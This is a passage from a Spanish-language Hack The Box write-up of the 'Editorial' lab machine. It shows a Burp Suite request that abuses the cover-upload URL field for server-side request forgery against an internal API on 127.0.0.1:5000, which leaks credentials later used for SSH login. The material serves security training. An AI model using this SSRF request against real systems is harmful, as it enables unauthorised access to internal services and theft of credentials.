 ```bash
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

En burpsuite vamos a poner el endpoint que queremos ver, en mi caso quiero enumerar por usuarios o informacion de los administradores de la web, asi que lo que mas se acerca a tener esta info es este enpoint `/api/latest/metadata/messages/authors`

```bash
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------65112106330445755751282750520
Content-Length: 398
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload

-----------------------------65112106330445755751282750520
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000/api/latest/metadata/messages/authors
-----------------------------65112106330445755751282750520

Content-Disposition: form-data; name="bookfile"; filename=""

Content-Type: application/octet-stream
-----------------------------65112106330445755751282750520--
```

![](htb-writeup-editorial/editorial12.png)

Podemos lograr visualizar un usuario y contraseña, el impacto de esta vulnerabilidad es critico. Se puede llegar a filtrar, datos sensibles o apis internas que estan en desarrollo aun... 

```bash
ssh dev@10.10.11.20
Password: 
```
